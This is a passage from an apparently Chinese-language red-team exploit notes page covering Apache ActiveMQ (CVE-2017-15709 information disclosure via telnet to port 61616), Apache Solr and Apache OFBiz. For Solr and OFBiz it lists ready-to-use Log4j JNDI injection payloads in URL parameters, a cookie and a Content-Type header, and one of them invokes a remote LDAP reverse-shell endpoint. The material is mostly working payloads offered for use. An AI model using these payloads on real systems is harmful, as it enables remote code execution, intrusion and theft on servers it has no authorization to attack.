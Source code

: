 * 参考文章
  * https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2015-5254/README.zh-cn.md
  * https://github.com/matthiaskaiser/jmet

#### CVE-2017-15709

* 漏洞描述
  * Apache ActiveMQ 默认消息队列 61616 端口对外，61616 端口使用了 OpenWire 协议，这个端口会暴露服务器相关信息，这些相关信息实际上是 debug 信息。会返回应用名称，JVM，操作系统以及内核版本等信息。
* 影响版本 5.14.0 < Apache ActiveMQ < 5.14.5 5.15.0 < Apache ActiveMQ < 5.15.2
*   漏洞利用

    ```
    telnet ip 61616
    ```

参考链接： - https://github.com/ffffffff0x/1earn/blob/27236f18098d66d7cf5c881dc70236968d5219cf/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md#activemq

#### Apache-Solr

**log4j影响**

> Apache Solr Log4j组件 远程命令执⾏漏洞

*   影响版本：

    ```
    v7.4.0 <= Solr <= v7.7.3
    v8.0.0 <= Solr < v8.11.1
    ```

payload：

```
/solr/admin/collections? action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
/solr/admin/info/system?_=${jndi:ldap://0.0.0.0/123}&wt=json
/solr/admin/cores?_=&action=&config=&dataDir=&instanceDir=${jndi:ldap://0.0.0.0/123}&name=&schema=&wt=
```

#### Apache-OFBiz

**log4j影响**

* 影响版本
  * OFBiz < v18.12.03
*   POC

    ```
    GET: https://0.0.0.0:8443/webtools/control/main
    Cookie: OFBiz.Visitor=${jndi:ldap://0.0.0.0/123}
    ```

    ```
    POST: https://0.0.0.0:8443/webtools/control/setLocaleFromBrowser
    Content-Type: text/html;charset=UTF-8${jndi:ldap://0.0.0.0/123}
    ```
